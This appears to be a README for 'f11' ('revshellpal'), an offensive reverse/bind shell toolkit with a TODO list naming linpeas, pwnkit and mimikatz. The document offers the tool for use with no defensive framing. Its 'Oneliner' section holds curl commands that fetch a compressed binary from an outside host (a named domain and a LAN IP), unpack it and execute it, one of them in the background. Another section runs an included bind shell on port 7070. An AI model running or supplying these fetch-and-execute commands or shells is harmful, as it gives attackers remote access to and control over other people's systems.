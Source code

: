 # f11
*revshellpal*

### TODO

- linpeas (all peas)
  - other similar enum?
- pwnkit
- mimikatz (windows)
- SUID/SUDO/CAP/
- SHELL


### Oneliner

```bash
rm /tmp/f11; curl -sL https://f11snipe.cloud/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
rm /tmp/f11*; curl -sL http://192.168.1.67:8000/dist/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11 2>&1 >> /tmp/f11.log &
```


### Run included standalone bind shell

```bash
# Extract archive
xz -d f11-bind.xz

# Allow execute
chmod +x f11-bind

# Run rev bind shell (port 7070)
./f11-bind
```

### Build from source

```bash
# Run all build steps
npm install
npm run ci
```


#### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```
